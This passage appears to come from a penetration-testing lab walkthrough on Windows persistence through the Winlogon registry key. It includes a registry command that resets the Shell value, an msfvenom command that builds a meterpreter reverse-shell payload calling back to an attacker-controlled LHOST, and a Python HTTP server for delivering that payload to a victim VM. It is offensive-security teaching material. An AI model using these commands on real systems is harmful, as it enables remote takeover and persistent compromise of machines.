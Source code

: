 ## Step 4. Clean up

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe" /f
```

![](./screenshots/25.png)


---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f exe > hack3.exe
```
![](./screenshots/17.png)

Open a server for victim's Windows 10 VM to download the malicious payload.<br>
```bash
python -m http.server 8000
```
Make sure you move `hack3.exe` to the folder `C:\Windows\Sytem32`. You can open the `Registry Editor`:<br>